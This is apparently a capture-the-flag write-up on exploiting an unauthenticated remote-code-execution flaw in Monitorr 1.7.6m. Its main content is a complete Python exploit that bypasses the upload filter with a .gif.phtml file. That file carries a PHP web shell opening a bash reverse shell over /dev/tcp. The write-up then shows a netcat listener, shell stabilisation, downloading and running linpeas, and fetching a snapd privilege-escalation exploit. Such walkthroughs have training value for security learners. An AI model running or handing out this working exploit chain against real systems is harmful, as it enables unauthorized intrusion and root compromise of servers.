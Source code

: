 # Year of the Jellyfish  
> Remote Code Execution Exploit `Monitorr 1.7.6m`

### Exploit Overview
This exploit demonstrates an unauthenticated Remote Code Execution (RCE) vulnerability in **Monitorr 1.7.6m**, a monitoring software. The vulnerability allows for unauthorized access and execution of arbitrary code on the target system. 

### Vulnerability Details
- **Software**: Monitorr 1.7.6m
- **Version**: 1.7.6m
- **Exploit Author**: Lyhin's Lab
- **Vulnerability**: Remote Code Execution (Unauthenticated)
- **Tested on**: Ubuntu 19
- **Issue**: File upload bypass and code execution via crafted file upload (`.gif.phtml` extension)


### Set Up Your Exploit Environment
Before running the exploit, make sure you have the following parameters ready:
- **Target URL**: The URL of the Monitorr application.
- **LHOST**: Your local IP address where the reverse shell will connect.
- **LPORT**: The port for the reverse shell to connect to (commonly port `443` for HTTPS).

### Create the Exploit
Here’s the Python script that performs the exploit.
```python
#!/usr/bin/python

import requests
import os
import sys

if len (sys.argv) != 4:
        print ("Specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"hello.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"
    cookies = {"isHuman" : "1"}
    
    reqData = requests.post(url, headers=headers, data=data, cookies=cookies, verify=False)

    print(reqData.text)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/hello.php"
    print(requests.get(url, headers=headers, cookies=cookies, verify=False).text)
```
### File Upload Bypass and Reverse Shell
The upload functionality in Monitorr blocks certain extensions like .php, .phtml, and .php.gif. The exploit tries these extensions, and the final working extension found was .gif.phtml. This extension bypasses the file upload filter.

### Reverse Shell
Once the shell is uploaded, the script attempts to access the uploaded PHP shell (hello.php), which triggers a reverse shell connection. The exploit uses a random filename for the shell, making detection more difficult.
```python
filename = str(random.randint(1000, 10000))
data = f"-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"{filename}.gif.phtml\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"
```

Run the following Netcat listener to catch the incoming shell:
```bash
$ nc -lvnp 443
```

### Accessing the Shell
The shell will be established and can be accessed using the following command:
```bash
$ python exploit-rce.py https://monitorr.robyns-petshop.thm <YOUR_IP> 443
```

```vbnet

File pwn2own.gif.phtml has been uploaded to: ../data/usrimg/pwn2own.gif.phtml
```

### Flag 1
Once the shell has been successfully uploaded and triggered, you can interact with the system. The first flag can be found by navigating to the usrimg directory.
```bash
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ whoami
www-data
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ cd ~
www-data@petshop:/var/www$ ls
dev  flag1.txt	html  monitorr
www-data@petshop:/var/www$ cat flag1.txt 
THM{MjBkO**********************NGNl}
```

### Post Exploitation
After gaining access, you can execute the following commands for further enumeration and privilege escalation:
```bash
www-data@petshop:/var/www/monitorr/assets/data$ which python3
/usr/bin/python3
www-data@petshop:/var/www/monitorr/assets/data$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@petshop:/var/www/monitorr/assets/data$ export TERM=xterm
www-data@petshop:/var/www/monitorr/assets/data$ ^Z
[1]+  Stopped                 nc -lvnp 443
```

### Privilege Escalation
After establishing a stable shell, you can download tools like linpeas.sh to check for privilege escalation opportunities.
```bash
$ curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh > linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

Look for upgradable software, such as snapd, which might be vulnerable:
```bash
$ apt list --upgradable
```

In this case, snapd was found to be upgradable and exploitable via a local privilege escalation exploit.

```bash
$ searchsploit snapd
```

Finally, download and run the exploit to escalate privileges:
```bash
$ wget https://www.exploit-db.com/download/46362
$ python 46362.py
```

### Final Flag and Root Access
Once you successfully execute the privilege escalation, you can read the final flag and obtain root access.

```bash
www-data@petshop:/var/www$ cat flag1.txt
THM{MjB************************jNGNl}
```

> This is a demonstration of how to exploit an unauthenticated RCE vulnerability and escalate privileges on a vulnerable system. Always ensure you have explicit permission to test and exploit any system in a legal environment, such as Capture the Flag (CTF) challenges or authorized pen-testing engagements.

#### References
- https://github.com/Monitorr/Monitorr
- https://www.exploit-db.com/exploits/46362


